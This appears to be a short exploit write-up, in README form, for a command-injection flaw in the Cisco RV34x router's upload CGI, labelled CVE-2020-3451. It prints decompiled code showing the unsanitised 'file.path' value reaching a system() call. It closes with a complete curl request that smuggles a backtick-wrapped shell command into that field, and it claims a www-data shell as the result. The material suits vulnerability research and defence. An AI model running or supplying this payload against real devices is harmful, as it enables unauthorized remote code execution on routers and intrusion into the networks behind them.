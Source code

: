 ## cisco-RV34x-RCE
The bug was found several mounths ago and it was reported by others.   
The cve-id should be CVE-2020-3451.   

## Detail
The bug exists in upload cgi.   
```
  ......
  jsonutil_get_string(dword_22F84, &v24, "\"file.path\"", -1);
  jsonutil_get_string(dword_22F84, &haystack, "\"filename\"", -1);
  jsonutil_get_string(dword_22F84, &v25, "\"pathparam\"", -1);
  jsonutil_get_string(dword_22F84, &v26, "\"fileparam\"", -1);
  jsonutil_get_string(dword_22F84, &v27, "\"destination\"", -1);
  jsonutil_get_string(dword_22F84, &v28, "\"option\"", -1);
  jsonutil_get_string(dword_22F84, &v29, "\"cert_name\"", -1);
  jsonutil_get_string(dword_22F84, &v30, "\"cert_type\"", -1);
  jsonutil_get_string(dword_22F84, &v31, "\"password\"", -1);
  if ( v3 )
  {
    StrBufSetStr(v33, v3);
    v3 = 0;
    v10 = (char *)StrBufToStr(v33);
    for ( i = strtok_r(v10, ";", &save_ptr); i; i = strtok_r(0, ";", &save_ptr) )
    {
      v12 = strstr(i, "sessionid=");
      if ( v12 )
        v3 = v12 + 10;
    }
  }
  if ( !v24 )
  {
    puts("Content-type: text/html\n");
    printf("Error Input");
    goto LABEL_24;
  }
  StrBufSetStr(v34, v26);
  v13 = haystack;
  if ( haystack )
  {
    if ( strstr(haystack, ".xml") )
    {
      v14 = "Configuration";
    }
    else
    {
      if ( !strstr(v13, ".img") )
      {
LABEL_18:
        StrBufSetStr(v34, v13);
        goto LABEL_19;
      }
      v14 = "Firmware";
    }
    v25 = v14;
    goto LABEL_18;
  }
LABEL_19:
  v15 = v25;
  v16 = v24;
  v17 = StrBufToStr(v34);
  sub_11500(pathparam, file.path, filename);
  ......
```
Step into sub_11500:   
```
 ...
  sprintf(&s, "%s/%s", v7, v4);
  sprintf((char *)&v11, "mv -f %s %s", file.path, &s);
  debug("cmd=%s", &v11);
  result = v11;
  if ( v11 )
  {
    v10 = system((const char *)&v11);
    if ( v10 < 0 )
      error((int)"upload.cgi: %s(%d) Upload failed!", (int)"prepare_file", (const char *)0xAA);
    result = v10;
  }
  return result;
}
...
```
It's easy to inject a system command.    
And there should be other cmdi bug(s) in the cgi.   

To trigger it:
```
curl -i -k https://192.168.1.1/upload -X POST -F 'filename=config.xml' -F 'input="<input><fileType>configuration</fileType><source><location-url>FILE://Configuration/config.xml</location-url></source><destination><config-type>config-running</config-type></destination></input>"' -F "file=@/tmp/1" -F "file.path=/tmp/input\`cmd to execute\`" -H "Accept: application/vnd
.yang.data+xml" >/dev/null 2>&1
```
And you can get a shell with www-data privilege.